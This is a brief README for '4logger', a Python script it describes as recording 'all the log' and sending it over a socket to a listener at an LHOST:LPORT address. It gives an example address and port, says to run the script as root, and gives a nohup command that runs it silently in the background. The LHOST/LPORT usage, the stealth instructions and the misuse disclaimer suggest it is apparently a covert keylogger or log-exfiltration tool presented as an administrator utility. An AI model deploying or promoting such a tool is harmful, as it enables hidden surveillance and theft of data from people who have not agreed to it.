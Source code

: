 # 4logger
This python script that will record all the log and send to system administrator (with socket module). Note: Run this script as root for working properly. Thanks

  	cd /path/to/file
	python3 4logger.py [LHOST]:[LPORT] -> python3 4logger.py 192.168.56.1:4444
  
if u wanna run it in silently and in background execute that by nohup

 	nohup python3 4logger.py 192.168.56.1:4444 > /dev/null 2>&1 &

# Disclaimer
The author will not responsible for any misuses and unauthorized actions. Use at your own risk. 
Best regards,
4cc3ss
